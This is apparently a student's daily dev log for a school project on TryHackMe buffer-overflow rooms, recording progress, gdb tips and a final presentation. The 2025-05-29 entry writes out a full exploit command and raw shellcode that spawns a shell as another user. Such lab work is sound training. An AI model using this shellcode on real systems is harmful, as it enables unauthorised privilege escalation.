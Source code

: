 # Dev Log:

This document must be updated daily every time you finish a work session.

## Jakob Weir

### 2025-05-16 - TryHackMe
Spent class time doing TryHackMe on buffer overflow.

### 2025-05-19 - THM Continued
Tried to continue TryHackMe, but had trouble figuring out how to run the C code properly.

### 2025-05-20 - Further look into THM
Caught up absent group member, successfully ran C code, looked at ways to complete next part, including seeing memory addresses.

### 2025-05-21 - AP macroeconomics exam

### 2025-05-22 - Further THM research
Got an understanding of how to find and manipulate stacks. Learned some from https://medium.com/@cyberlarry/walkthrough-tryhackme-buffer-overflows-task-7-overwriting-function-pointers-ac1336979261.

### 2025-05-23 - Running on lab computers
Ran some of the TryHackMe code on lab computers to test buffer overflow there after much trial and error.

### 2025-05-27 - Strange character
Tried to figure out why there was 8c instead of cc. Eventually fixed by using a payload instead of Python output.
From the walkthrough:
Because of the order in which Unix-based systems allocate memory, we need to unset some environment variables in order to use the same memory addresses inside and outside gdb. We need to unset env LINES and unset env COLUMNS within gdb with this command:

`set exec-wrapper env -u LINES -u COLUMNS`

### 2025-05-28 - Using buffer overflow for root access
Continued to next THM section. [THM](https://tryhackme.com/room/bof1). [Walkthrough](https://l1ge.github.io/tryhackme_bof1/).

### 2025-05-29 - Continuing trying to access a different user
More THM. Found `./buffer-overflow $(python -c "print('\x90'*86+'\x48\x31\xFF\x48\x31\xC0\x48\x31\xF6\x66\xBE\xEA\x03\x66\xBF\xEA\x03\xB0\x71\x0F\x05\x48\x31\xD2\x48\xBB\xFF\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x48\x31\xC0\x50\x57\x48\x89\xE6\xB0\x3B\x0F\x05\x6A\x01\x5F\x6A\x3C\x58\x0F\x05' + 'A'*12 + '\x98\xe2\xff\xff\xff\x7f')")` but didn't work. Will retry later.

Later that day: Copy pasting from the walkthrough gave me user2 access. Tried task 9. Generated assembly code "\x48\x31\xFF\x48\x31\xC0\x48\x31\xF6\x66\xBE\xEB\x03\x66\xBF\xEB\x03\xB0\x71\x0F\x05\x48\x31\xD2\x48\xBB\xFF\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x48\x31\xC0\x50\x57\x48\x89\xE6\xB0\x3B\x0F\x05\x6A\x01\x5F\x6A\x3C\x58\x0F\x05" for switching to user3 but did not work. Will figure out more.

### 2025-05-30 - Moving to task 9
Found a walkthrough for task 9, somewhat helpful for my understanding. Pwntools is a help and can probably be used a lot in this project.

### 2025-06-02 - Copying code, adding to presentation
Copied some TryHackMe code by Elias's request, added new knowledge into my presentation.


### 2025-06-03 - Final Recording
Readied my part of the presentation, participated in the recording, and edited the video.